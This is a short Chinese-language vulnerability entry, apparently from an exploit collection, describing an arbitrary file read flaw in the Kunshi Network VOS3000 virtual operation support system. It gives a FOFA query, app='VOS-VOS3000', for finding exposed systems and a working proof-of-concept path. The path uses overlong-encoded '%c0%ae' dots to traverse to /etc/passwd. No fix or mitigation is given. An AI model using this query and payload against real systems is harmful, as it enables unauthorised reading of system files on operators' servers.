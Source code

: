 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## FOFA

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面

![image-20220525144202606](./images/202205251442673.png)

验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](./images/202205251443278.png)